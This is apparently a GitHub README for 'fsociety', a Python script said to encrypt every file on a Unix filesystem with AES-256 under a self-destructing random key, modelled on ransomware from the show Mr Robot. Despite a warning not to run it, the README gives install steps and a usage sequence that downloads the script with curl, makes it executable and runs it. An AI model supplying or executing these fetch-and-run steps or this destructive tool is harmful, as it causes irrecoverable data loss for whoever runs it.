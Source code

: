 # fsociety
WARNING: do not actually execute this. You will not be able to recover the files.

This is intended to encrypt every bit of data in a unix filesystem using 256-bit AES with 
a self-destructing, randomly generated key.

The fuxsocy.py script is based on Darlene's malware shown in Mr Robot

S2E1:

![alt text](https://i.imgur.com/6RIogYa.jpg)

Dependencies:

* Python3
* pycrypto

```shell
sudo apt install python3 python3-pip
```
```shell
pip3 install pycrypto
```

Usage:

```shell
curl https://raw.githubusercontent.com/joekendal/fsociety/master/fuxsocy.py
```
```shell
sudo chmod +x fuxsocy.py
```
```shell
./fuxsocy.py
```
